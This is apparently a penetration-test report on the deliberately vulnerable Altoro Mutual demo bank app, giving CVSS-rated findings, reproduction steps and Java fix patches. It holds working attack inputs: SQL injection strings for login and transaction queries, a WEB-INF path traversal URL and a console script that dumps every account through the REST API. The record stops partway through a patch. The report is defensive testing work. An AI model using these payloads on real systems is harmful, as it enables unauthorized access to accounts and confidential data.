


# Notes

- Additional properties on the system were not enabled. This makes the system consistent with the online demo at <http://demo.testfire.net/> and hence the exploits will also work there. Enabling the additional properties does introduce other vulnerabilities, but I have already found 23 vulnerabilities.
- If you want to test on <http://demo.testfire.net/> or on your local instance, make sure to replace the `/altoromutual` part in the URLs in the exploits JavaScript scripts to the base path on which the website is hosted. For example, in case of the <http://demo.testfire.net/>, there is no base path so the `/altoromutual` part of the URL has to be removed in the scripts.
- Code patches are applied in the order they appear.
- The system provides an additional API (we'll refer to it as the REST API) in addition to the API the frontend uses to communicate with the backend. Some same vulnerabilities are discovered through both APIs; these are not duplicates. They are two entry points to the same vulnerability and should be tested separately.

# Findings details

## SQL injection in log in

- **Test CVSS severity**: critical
- **Test CVSS score:** 9.3
- **Test CVSS vector:** `CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:H/VA:N/SC:N/SI:N/SA:N`
- **After re-test severity:** resolved
- **Description of the type of the vulnerability:** <https://owasp.org/www-community/attacks/SQL_Injection>
- **Description of the vulnerability:** an attacker can `bypass` the correct username/password check in the login by having the username as `asd' or 1=1 --` and the password as anything.
- **Impact:** severe impact; successful exploitation gives the attacker the ability to bypass login
- **Recommendations:** use prepared statements instead of interpolating user inputs in the login SQL queries

## SQL injection in REST API (accounts)

- **Test CVSS severity**: High
- **Test CVSS score:** 8.7
- **Test CVSS vector:** `CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:N/VA:N/SC:N/SI:N/SA:N`
- **After re-test severity:** resolved
- **Description of the type of the vulnerability:** <https://owasp.org/www-community/attacks/SQL_Injection>
- **Description of the vulnerability:** an attacker can list all bank accounts on the system by passing the username as `asd' or 1=1 --` in the rest api authentication token and submitting a GET request to `/api/account`.
- **Impact:** severe impact; successful exploitation gives the attacker the ability to list all bank accounts on the system
- **Recommendations:** use prepared statements instead of interpolating user inputs in the listing bank accounts SQL queries and in the authentication queries

## SQL injection in transactions listing

- **Test CVSS severity**: High
- **Test CVSS score:** 7.1
- **Test CVSS vector:** `CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:H/VI:N/VA:N/SC:N/SI:N/SA:N`
- **After re-test severity:** resolved
- **Description of the type of the vulnerability:** <https://owasp.org/www-community/attacks/SQL_Injection>
- **Description of the vulnerability:** an attacker can list all transactions on the system by bypassing the front-end validation in the transactions filtering page and setting the start date as `2018-06-11` and the end date as `2018-06-11 23:59:59') OR 1=1 --`
- **Impact:** severe impact; successful exploitation gives the attacker the ability to list all transactions on the system
- **Recommendations:** use prepared statements instead of interpolating user inputs in the transactions listing SQL queries

## SQL injection in REST API (transactions)

- **Test CVSS severity**: High
- **Test CVSS score:** 7.1
- **Test CVSS vector:** `CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:H/VI:N/VA:N/SC:N/SI:N/SA:N`
- **After re-test severity:** resolved
- **Description of the type of the vulnerability:** <https://owasp.org/www-community/attacks/SQL_Injection>
- **Description of the vulnerability:** an attacker can list all transactions on the system by setting the start date as `2018-06-11` and the end date as `2018-06-11 23:59:59') OR 1=1 --` in the transaction listing REST API endpoint (`POST /api/account/800004/transactions`)
- **Impact:** severe impact; successful exploitation gives the attacker the ability to list all bank accounts on the system
- **Recommendations:** use prepared statements instead of interpolating user inputs in the listing bank accounts SQL queries and in the authentication queries

## Unauthorized file access (`Q3_earnings.rtf`)

- **Test CVSS severity**: High
- **Test CVSS score:** 8.7
- **Test CVSS vector:** `CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:N/VA:N/SC:N/SI:N/SA:N`
- **After re-test severity:** resolved
- **Description of the type of the vulnerability:** An attacker can access a file they should not be allowed to access
- **Description of the vulnerability:** an attacker can download the bank's confidential earnings via visiting `/pr/Q3_earnings.rtf`.
- **Impact:** severe impact; successful exploitation gives the attacker the ability to download the bank's confidential earnings
- **Recommendations:** put the earnings file in a directory that is not served on the internet

## Unauthorized file access (`Draft.rtf`)

- **Test CVSS severity**: High
- **Test CVSS score:** 8.7
- **Test CVSS vector:** `CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:N/VA:N/SC:N/SI:N/SA:N`
- **After re-test severity:** resolved
- **Description of the type of the vulnerability:** An attacker can access a file they should not be allowed to access
- **Description of the vulnerability:** an attacker can download the bank's confidential draft via visiting `/pr/Draft.rtf`.
- **Impact:** severe impact; successful exploitation gives the attacker the ability to download the bank's confidential draft
- **Recommendations:** put the draft file in a directory that is not served on the internet

## Path traversal attack

- **Test CVSS severity**: Critical
- **Test CVSS score:** 9.2
- **Test CVSS vector:** `CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:N/VA:N/SC:H/SI:N/SA:N`
- **After re-test severity:** resolved
- **Description of the type of the vulnerability:** <https://owasp.org/www-community/attacks/Path_Traversal>
- **Description of the vulnerability:** an attacker can access configuration files that can contain secrets under `WebContent/WEB-INF` by going to `/index.jsp?content=../WEB-INF/name_of_the_file` (e.g, `/index.jsp?content=../WEB-INF/app.properties`)
- **Impact:** severe impact; successful exploitation gives the attacker the ability to access configuration files in the `WebContent/WEB-INF` directory which can contain passwords.
- **Recommendations:** make sure paths served in `index.jsp` do not escape the parent directory (follow OWASP's recommendations in the link above).

## Exploiting business logic flaw (excessive money transfer)

- **Test CVSS severity**: High
- **Test CVSS score:** 7.1
- **Test CVSS vector:** `CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:N/VI:H/VA:N/SC:N/SI:N/SA:N`
- **After re-test severity:** resolved
- **Description of the type of the vulnerability:** a defect in the business logic (lack of input validation)
- **Description of the vulnerability:** an attacker can transfer an amount (AM) of money from their account (A) to their other account (B) even if the amount (AM) exceeds the balance in account (A).
- **Impact:** severe impact; successful exploitation gives the attacker the ability to put an unlimited amount of money on one of their accounts and put a negative amount of money on another one of their accounts.
- **Recommendations:** make sure the user can not transfer an amount of money that is larger than his account's balance

## Exploiting business logic flaw (excessive money transfer in REST API)

- **Test CVSS severity**: High
- **Test CVSS score:** 7.1
- **Test CVSS vector:** `CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:N/VI:H/VA:N/SC:N/SI:N/SA:N`
- **After re-test severity:** resolved
- **Description of the type of the vulnerability:** a defect in the business logic (lack of REST API request body validation)
- **Description of the vulnerability:** an attacker can transfer an amount (AM) of money from their account (A) to their other account (B) even if the amount (AM) exceeds the balance in account (A).
- **Impact:** severe impact; successful exploitation gives the attacker the ability to put an unlimited amount of money on one of their accounts and put a negative amount of money on another one of their accounts.
- **Recommendations:** make sure the user can not transfer an amount of money that is larger than his account's balance through the REST API

## Exploiting business logic flaw (negative money transfer in REST API)

- **Test CVSS severity**: High
- **Test CVSS score:** 7.1
- **Test CVSS vector:** `CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:N/VI:H/VA:N/SC:N/SI:N/SA:N`
- **After re-test severity:** resolved
- **Description of the type of the vulnerability:** a defect in the business logic (lack of REST API request body validation)
- **Description of the vulnerability:** an attacker can transfer a negative amount of money from their account to another account
- **Impact:** severe impact; successful exploitation gives the attacker the ability to transfer a negative amount of money from an account to another leading to an decrease of money in the receiving account and a increase of money in the sending account
- **Recommendations:** make sure the user can not transfer a negative amount of money through the REST API

## Bypassing access control (sending money from a foreign account in the REST API)

- **Test CVSS severity**: High
- **Test CVSS score:** 7.1
- **Test CVSS vector:** `CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:N/VI:H/VA:N/SC:N/SI:N/SA:N`
- **After re-test severity:** resolved
- **Description of the type of the vulnerability:** a defect in the access control (lack of REST API request body validation)
- **Description of the vulnerability:** an attacker can transfer an amount of money from accounts that do not belong to them
- **Impact:** severe impact; successful exploitation gives the attacker the ability to transfer an amount of money from accounts that do not belong to them
- **Recommendations:** make sure the user can only transfer money from their accounts

## Bypassing access control (sending money from a foreign account through cookie manipulation)

- **Test CVSS severity**: High
- **Test CVSS score:** 7.1
- **Test CVSS vector:** `CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:N/VI:H/VA:N/SC:N/SI:N/SA:N`
- **After re-test severity:** resolved
- **Description of the type of the vulnerability:** a defect in the access control (treating cookies as a trusted source of truth of the authorities)
- **Description of the vulnerability:** an attacker can transfer an amount of money from accounts that do not belong to them by modifying a cookie that represents what accounts belong to the user
- **Impact:** severe impact; successful exploitation gives the attacker the ability to transfer an amount of money from accounts that do not belong to them
- **Recommendations:** either do not use cookies for determining what accounts belong to the user, or add a verification signature to the cookie.

## Bypassing access control (viewing a foreign account details)

- **Test CVSS severity**: High
- **Test CVSS score:** 7.1
- **Test CVSS vector:** `CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:H/VI:N/VA:N/SC:N/SI:N/SA:N`
- **After re-test severity:** resolved
- **Description of the type of the vulnerability:** a defect in the access control (not doing backend validation on who is viewing the account)
- **Description of the vulnerability:** an attacker can view the account details of another user through the `/bank/showAccount` page
- **Impact:** severe impact; successful exploitation gives the attacker the ability to view the details of foreign accounts violating their privacy
- **Recommendations:** do backend validation before sending the data to the `/bank/showAccount` page

## Bypassing access control (getting a foreign account details through the REST API)

- **Test CVSS severity**: High
- **Test CVSS score:** 7.1
- **Test CVSS vector:** `CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:H/VI:N/VA:N/SC:N/SI:N/SA:N`
- **After re-test severity:** resolved
- **Description of the type of the vulnerability:** a defect in the access control (not validating who is GET'ing the account in the REST API)
- **Description of the vulnerability:** an attacker can view the account details of another user through the `GET /api/account` endpoint
- **Impact:** severe impact; successful exploitation gives the attacker the ability to view the details foreign accounts violating their privacy
- **Recommendations:** do proper access control in the `GET /api/account` endpoint

## Bypassing access control (getting a the last ten transactions of a foreign account through the REST API)

- **Test CVSS severity**: High
- **Test CVSS score:** 7.1
- **Test CVSS vector:** `CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:H/VI:N/VA:N/SC:N/SI:N/SA:N`
- **After re-test severity:** resolved
- **Description of the type of the vulnerability:** a defect in the access control (not validating who is GET'ing the last ten transactions of an account in the REST API)
- **Description of the vulnerability:** an attacker can view the last ten transactions of an account of another user through the `GET /api/account` endpoint
- **Impact:** severe impact; successful exploitation gives the attacker the ability to view the last ten transactions of foreign accounts violating their privacy
- **Recommendations:** do proper access control in the `GET /api/account/{accountNo}/transactions` endpoint

## Bypassing access control (accessing admin pages)

- **Test CVSS severity**: High
- **Test CVSS score:** 8.6
- **Test CVSS vector:** `CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:H/VI:H/VA:N/SC:N/SI:N/SA:N`
- **After re-test severity:** resolved
- **Description of the type of the vulnerability:** a defect in the access control (improper validation on who is accessing the admin pages)
- **Description of the vulnerability:** an attacker can view the admin pages and take admin actions by visiting `/admin/admin.jsp`
- **Impact:** severe impact; successful exploitation gives the attacker admin privileges
- **Recommendations:** do proper access control on admin pages and actions

## Cross site scripting in `/bank/customize.jsp`

- **Test CVSS severity**: High
- **Test CVSS score:** 7.1
- **Test CVSS vector:** `CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:P/VC:H/VI:L/VA:N/SC:N/SI:N/SA:N`
- **After re-test severity:** resolved
- **Description of the type of the vulnerability:** <https://owasp.org/www-community/attacks/xss/>
- **Description of the vulnerability:** an attacker can inject arbitrary HTML/CSS/JavaScript by putting them in the `lang` parameter in `/bank/customize.jsp`
- **Impact:** severe impact; an attacker can send such link to other users; the link appears as if it is genuine but the page can contain an evil script or form that can cause the victim's data to be stolen
- **Recommendations:** <https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html>

## Cross site scripting in `/search.jsp`

- **Test CVSS severity**: High
- **Test CVSS score:** 7.1
- **Test CVSS vector:** `CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:P/VC:H/VI:L/VA:N/SC:N/SI:N/SA:N`
- **After re-test severity:** resolved
- **Description of the type of the vulnerability:** <https://owasp.org/www-community/attacks/xss/>
- **Description of the vulnerability:** an attacker can inject arbitrary HTML/CSS/JavaScript by putting them in the `query` parameter in `/search.jsp`
- **Impact:** severe impact; an attacker can send such link to other users; the link appears as if it is genuine but the page can contain an evil script or form that can cause the victim's data to be stolen
- **Recommendations:** <https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html>

## Cross site scripting in `/util/serverStatusCheckService.jsp`

- **Test CVSS severity**: High
- **Test CVSS score:** 7.1
- **Test CVSS vector:** `CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:P/VC:H/VI:L/VA:N/SC:N/SI:N/SA:N`
- **After re-test severity:** resolved
- **Description of the type of the vulnerability:** <https://owasp.org/www-community/attacks/xss/>
- **Description of the vulnerability:** an attacker can inject arbitrary HTML/CSS/JavaScript by putting them in the `HostName` parameter in `/util/serverStatusCheckService.jsp`
- **Impact:** severe impact; an attacker can send such link to other users; the link appears as if it is genuine but the page can contain an evil script or form that can cause the victim's data to be stolen
- **Recommendations:** <https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html>

## Cross site scripting in `/bank/queryxpath.jsp`

- **Test CVSS severity**: High
- **Test CVSS score:** 7.1
- **Test CVSS vector:** `CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:P/VC:H/VI:L/VA:N/SC:N/SI:N/SA:N`
- **After re-test severity:** resolved
- **Description of the type of the vulnerability:** <https://owasp.org/www-community/attacks/xss/>
- **Description of the vulnerability:** an attacker can inject arbitrary HTML/CSS/JavaScript by putting them in the `content` parameter in `/bank/queryxpath.jsp`
- **Impact:** severe impact; an attacker can send such link to other users; the link appears as if it is genuine but the page can contain an evil script or form that can cause the victim's data to be stolen
- **Recommendations:** <https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html>

## Cross site scripting in `/bank/transaction.jsp`

- **Test CVSS severity**: High
- **Test CVSS score:** 7.1
- **Test CVSS vector:** `CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:P/VC:H/VI:L/VA:N/SC:N/SI:N/SA:N`
- **After re-test severity:** resolved
- **Description of the type of the vulnerability:** <https://owasp.org/www-community/attacks/xss/>
- **Description of the vulnerability:** an attacker can inject arbitrary HTML/CSS/JavaScript by putting them in the `startDate` or `endDate` parameter in `/bank/transaction.jsp`
- **Impact:** severe impact; an attacker can send such link to other users; the link appears as if it is genuine but the page can contain an evil script or form that can cause the victim's data to be stolen
- **Recommendations:** <https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html>

## Cross site scripting in `/bank/feedbacksuccess.jsp`

- **Test CVSS severity**: High
- **Test CVSS score:** 7.1
- **Test CVSS vector:** `CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:P/VC:H/VI:L/VA:N/SC:N/SI:N/SA:N`
- **After re-test severity:** resolved
- **Description of the type of the vulnerability:** <https://owasp.org/www-community/attacks/xss/>
- **Description of the vulnerability:** an attacker can inject arbitrary HTML/CSS/JavaScript by putting them in the `email_addr` parameter in `/bank/feedbacksuccess.jsp`
- **Impact:** severe impact; an attacker can send such link to other users; the link appears as if it is genuine but the page can contain an form that can cause the victim's data to be stolen
- **Recommendations:** <https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html>

## Unvalidated redirect in `/bank/customize.jsp`

- **Test CVSS severity**: Medium
- **Test CVSS score:** 5.3
- **Test CVSS vector:** `CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:P/VC:L/VI:N/VA:N/SC:N/SI:N/SA:N`
- **After re-test severity:** resolved
- **Description of the type of the vulnerability:** <https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html>
- **Description of the vulnerability:** an attacker can redirect the user to an arbitrary site by putting the website in the value of the `content` parameter in `/bank/customize.jsp`
- **Impact:** medium impact; an attacker can send such link to other users; the link appears as if it is genuine but it can redirect the user to a phishing website and possibly steal their data
- **Recommendations:** <https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html>

# Finding scenarios

<!-- TODO: Fixing steps, re-test steps -->

## SQL injection in log in

### Test steps

- Open /login.jsp
- Login with the username as: `asd' or 1=1 --`, and the password as anything:


- Observe that you are logged in as the first user in the system:


### Cause

`DBUtil.isValidUser()` method interpolates the user input in the SQL query; hence making the attacker able to execute arbitrary queries. The resulting query becomes:

```sql
SELECT COUNT(*) FROM PEOPLE WHERE USER_ID = 'asd' or 1=1 -- AND PASSWORD='anything'")
```

### Fix explanation

Prepared statements with parameters setting are used in `DBUtil.isValidUser()` instead of string concatenation to form the query.

### Fix patch

```diff
diff --git a/src/src/com/ibm/security/appscan/altoromutual/util/DBUtil.java b/src/src/com/ibm/security/appscan/altoromutual/util/DBUtil.java
index 3031aa8..c7df6a3 100644
--- a/src/src/com/ibm/security/appscan/altoromutual/util/DBUtil.java
+++ b/src/src/com/ibm/security/appscan/altoromutual/util/DBUtil.java
@@ -29,6 +29,7 @@ import java.util.ArrayList;
 import javax.naming.Context;
 import javax.naming.InitialContext;
 import javax.sql.DataSource;
+import java.sql.PreparedStatement;

 import com.ibm.security.appscan.Log4AltoroJ;
 import com.ibm.security.appscan.altoromutual.model.Account;
@@ -214,16 +215,16 @@ public class DBUtil {
 			return false;

 		Connection connection = getConnection();
-		Statement statement = connection.createStatement();
-
-		ResultSet resultSet =statement.executeQuery("SELECT COUNT(*)FROM PEOPLE WHERE USER_ID = '"+ user +"' AND PASSWORD='" + password + "'"); /* BAD - user input should always be sanitized */
-
-		if (resultSet.next()){
-
+		try (PreparedStatement statement = connection.prepareStatement("SELECT COUNT(*) FROM PEOPLE WHERE USER_ID = ? AND PASSWORD = ?")) {
+			statement.setString(1, user);
+			statement.setString(2, password);
+			ResultSet resultSet = statement.executeQuery();
+			if (resultSet.next()){
 				if (resultSet.getInt(1) > 0)
 					return true;
+			}
+			return false;
 		}
-		return false;
 	}
```

### Re-test steps

Enter the same credentials as the test steps and observe how the system says the username or password is incorrect:


## SQL injection in REST API (accounts)

### Test steps

- Run the following script in your browser's dev tools' console while on the website (F12 > console):

  ```javascript
  username = "asd' or 1=1 --";
  password = 'asd';
  res = await (
    await fetch('/altoromutual/api/login', {
      headers: { 'Content-Type': 'application/json' },
      method: 'POST',
      body: JSON.stringify({
        username,
        password
      })
    })
  ).json();

  auth = res.Authorization;

  await (
    await fetch('/altoromutual/api/account', {
      headers: { Authorization: auth }
    })
  ).json();
  ```

- Observe how all bank accounts are returned:


### Cause

- `DBUtil.getUserInfo()` method interpolates the user input in the SQL query; hence making the attacker able to execute arbitrary queries. The resulting query becomes:
  ```sql
  SELECT FIRST_NAME,LAST_NAME,ROLE FROM PEOPLE WHERE USER_ID = 'asd' or 1=1 --
  ```
- `DBUtil.getUserInfo()` returns the received username in the parameter rather than the one retrieved from the database (since it assumes they would be the same)
- `DBUtil.getAccounts()` is then called with the modified username and also interpolates the SQL query with the user input; hence the resulting query becomes:
  ```sql
  SELECT ACCOUNT_ID, ACCOUNT_NAME, BALANCE FROM ACCOUNTS WHERE USERID = 'asd' or 1=1 --
  ```
  leading to returning all of the users in the database

### Fix explanation

Use prepared statements with parameter setting in `DBUtil.getUserInfo()` and `DBUtil.getAccounts()`.

### Fix patch

```diff
diff --git a/src/src/com/ibm/security/appscan/altoromutual/util/DBUtil.java b/src/src/com/ibm/security/appscan/altoromutual/util/DBUtil.java
index c7df6a3..0de05f2 100644
--- a/src/src/com/ibm/security/appscan/altoromutual/util/DBUtil.java
+++ b/src/src/com/ibm/security/appscan/altoromutual/util/DBUtil.java
@@ -238,17 +238,19 @@ public class DBUtil {
 		if (username == null || username.trim().length() == 0)
 			return null;

-		Connection connection = getConnection();
-		Statement statement = connection.createStatement();
-		ResultSet resultSet =statement.executeQuery("SELECT FIRST_NAME,LAST_NAME,ROLE FROM PEOPLE WHERE USER_ID = '"+ username +"' "); /* BAD - user input should always be sanitized */
-
 		String firstName = null;
 		String lastName = null;
 		String roleString = null;
-		if (resultSet.next()){
-			firstName = resultSet.getString("FIRST_NAME");
-			lastName = resultSet.getString("LAST_NAME");
-			roleString = resultSet.getString("ROLE");
+
+		Connection connection = getConnection();
+		try (PreparedStatement statement = connection.prepareStatement("SELECT FIRST_NAME,LAST_NAME,ROLE FROM PEOPLE WHERE USER_ID = ?")) {
+			statement.setString(1, username);
+			ResultSet resultSet = statement.executeQuery();
+			if (resultSet.next()){
+				firstName = resultSet.getString("FIRST_NAME");
+				lastName = resultSet.getString("LAST_NAME");
+				roleString = resultSet.getString("ROLE");
+			}
 		}

 		if (firstName == null || lastName == null)
@@ -273,19 +275,21 @@ public class DBUtil {
 			return null;

 		Connection connection = getConnection();
-		Statement statement = connection.createStatement();
-		ResultSet resultSet =statement.executeQuery("SELECT ACCOUNT_ID, ACCOUNT_NAME, BALANCE FROM ACCOUNTS WHERE USERID = '"+ username +"' "); /* BAD - user input should always be sanitized */
+		try (PreparedStatement statement = connection.prepareStatement("SELECT ACCOUNT_ID, ACCOUNT_NAME, BALANCE FROM ACCOUNTS WHERE USERID = ?")) {
+			statement.setString(1, username);
+			ResultSet resultSet = statement.executeQuery();

-		ArrayList<Account> accounts = new ArrayList<Account>(3);
-		while (resultSet.next()){
-			long accountId = resultSet.getLong("ACCOUNT_ID");
-			String name = resultSet.getString("ACCOUNT_NAME");
-			double balance = resultSet.getDouble("BALANCE");
-			Account newAccount = new Account(accountId, name, balance);
-			accounts.add(newAccount);
+			ArrayList<Account> accounts = new ArrayList<Account>(3);
+			while (resultSet.next()){
+				long accountId = resultSet.getLong("ACCOUNT_ID");
+				String name = resultSet.getString("ACCOUNT_NAME");
+				double balance = resultSet.getDouble("BALANCE");
+				Account newAccount = new Account(accountId, name, balance);
+				accounts.add(newAccount);
+			}
+
+			return accounts.toArray(new Account[accounts.size()]);
 		}
-
-		return accounts.toArray(new Account[accounts.size()]);
 	}

 	/**
```

### Re-test steps

- Run the same script as the one in the test steps and observe how the API returns an error instead


- Run the following script to try to evade the login endpoint by setting the authorization token manually and observe how the API also returns an error:


## SQL injection in transactions listing

### Test steps

- Go to `/bank/transaction.jsp`
- Run the following javascript code in the browser console while on the page (F12 > console) to bypass front-end validation:

  ```javascript
  Form1.onsubmit = undefined;
  ```


- Set the start date as `2018-06-11` and the end date as `2018-06-11 23:59:59') OR 1=1 --`:


- Click submit and observe how all of the transactions on the system are shown:


### Cause

`DBUtil.getTransactions()` method interpolates the user input in the SQL query; hence making the attacker able to execute arbitrary queries. The resulting query becomes:

```sql
SELECT * FROM TRANSACTIONS WHERE (ACCOUNTID = "whatever" OR ACCOUNTID = "whatever") AND (DATE BETWEEN '2018-06-11' AND '2018-06-11 23:59:59') OR 1=1 --') ORDER BY DATE DESC
```

### Fix explanation

Use prepared statements with parameter setting in `DBUtil.getTransactions()`.

### Fix patch

```diff
diff --git a/src/src/com/ibm/security/appscan/altoromutual/util/DBUtil.java b/src/src/com/ibm/security/appscan/altoromutual/util/DBUtil.java
index 0de05f2..aa3bd9d 100644
--- a/src/src/com/ibm/security/appscan/altoromutual/util/DBUtil.java
+++ b/src/src/com/ibm/security/appscan/altoromutual/util/DBUtil.java
@@ -377,43 +377,46 @@ public class DBUtil {
 		if (accounts == null || accounts.length == 0)
 			return null;

-			Connection connection = getConnection();
+		StringBuffer acctIds = new StringBuffer();
+		acctIds.append("ACCOUNTID = ?");
+		for (int i=1; i<accounts.length; i++){
+			acctIds.append(" OR ACCOUNTID = ?");
+		}
+
+		String dateString = null;
+		boolean startDateExists = false;
+		boolean endDateExists = false;
+
+		if (startDate != null && startDate.length()>0 && endDate != null && endDate.length()>0){
+			startDateExists = true;
+			endDateExists = true;
+			dateString = "DATE BETWEEN ? AND ?";
+		} else if (startDate != null && startDate.length()>0){
+			startDateExists = true;
+			dateString = "DATE > ?";
+		} else if (endDate != null && endDate.length()>0){
+			endDateExists = true;
+			dateString = "DATE < ?";
+		}
+
+		String query = "SELECT * FROM TRANSACTIONS WHERE (" + acctIds.toString() + ") " + ((dateString==null)?"": "AND (" + dateString + ") ") + "ORDER BY DATE DESC" ;
+		ArrayList<Transaction> transactions = new ArrayList<Transaction>();

-
-			Statement statement = connection.createStatement();
-
+		Connection connection = getConnection();
+		try (PreparedStatement statement = connection.prepareStatement(query)) {
 			if (rowCount > 0)
 				statement.setMaxRows(rowCount);
-
-			StringBuffer acctIds = new StringBuffer();
-			acctIds.append("ACCOUNTID = " + accounts[0].getAccountId());
-			for (int i=1; i<accounts.length; i++){
-				acctIds.append(" OR ACCOUNTID = "+accounts[i].getAccountId());
+			int i = 1;
+			for (; i<=accounts.length; i++){
+				statement.setString(i, String.valueOf(accounts[i - 1].getAccountId()));
 			}
-
-			String dateString = null;
-
-			if (startDate != null && startDate.length()>0 && endDate != null && endDate.length()>0){
-				dateString = "DATE BETWEEN '" + startDate + " 00:00:00' AND '" + endDate + " 23:59:59'";
-			} else if (startDate != null && startDate.length()>0){
-				dateString = "DATE > '" + startDate +" 00:00:00'";
-			} else if (endDate != null && endDate.length()>0){
-				dateString = "DATE < '" + endDate + " 23:59:59'";
+			if (startDateExists) {
+				statement.setString(i++, startDate + " 00:00:00");
 			}
-
-			String query = "SELECT * FROM TRANSACTIONS WHERE (" + acctIds.toString() + ") " + ((dateString==null)?"": "AND (" + dateString + ") ") + "ORDER BY DATE DESC" ;
-			ResultSet resultSet = null;
-
-			try {
-				resultSet = statement.executeQuery(query);
-			} catch (SQLException e){
-				int errorCode = e.getErrorCode();
-				if (errorCode == 30000)
-					throw new SQLException("Date-time query must be in the format of yyyy-mm-dd HH:mm:ss", e);
-
-				throw e;
+			if (endDateExists) {
+				statement.setString(i++, endDate + " 23:59:59");
 			}
-			ArrayList<Transaction> transactions = new ArrayList<Transaction>();
+			ResultSet resultSet = statement.executeQuery();
 			while (resultSet.next()){
 				int transId = resultSet.getInt("TRANSACTION_ID");
 				long actId = resultSet.getLong("ACCOUNTID");
@@ -422,8 +425,14 @@ public class DBUtil {
 				double amount = resultSet.getDouble("AMOUNT");
 				transactions.add(new Transaction(transId, actId, date, desc, amount));
 			}
-
-			return transactions.toArray(new Transaction[transactions.size()]);
+		} catch (SQLException e){
+			int errorCode = e.getErrorCode();
+			if (errorCode == 20000)
